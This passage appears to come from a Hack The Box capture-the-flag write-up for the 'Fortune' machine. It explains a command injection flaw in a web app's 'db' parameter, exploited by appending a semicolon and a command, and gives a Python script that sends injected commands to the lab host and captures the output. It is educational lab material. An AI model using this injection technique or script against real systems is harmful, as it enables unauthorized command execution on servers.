 
![](/assets/images/htb-writeup-fortune/fortune2.png)

The fortune web app has a pretty trivial command injection vulnerability. It simply appends what I pass in the `db` parameter to the `fortune` application call. I can run arbitrary commands and programs simply by adding a semi-colon after the database name.

The example here shows I can run `id` and list the root directory:

![](/assets/images/htb-writeup-fortune/fortune3.png)

Because I wasn't sure how much time I'd need to spend poking around the system through that command injection vulnerability, I wrote a quick python script that runs commands and cleans up the output. The output of all commands is displayed to screen and also saved to `output.txt`.

```python
#!/usr/bin/python

import re
import readline
import requests

f = open("output.txt", "a")

while True:
    cmd = raw_input("> ")
    data = { "db": ";echo '****';{}".format(cmd)}
    r = requests.post("http://fortune.htb/select", data=data)
    m = re.search("\*\*\*\*(.*)</pre>", r.text, re.DOTALL)
    if m:
        print m.group(1)
        f.write("CMD: {}".format(cmd))
        f.write(m.group(1))
```
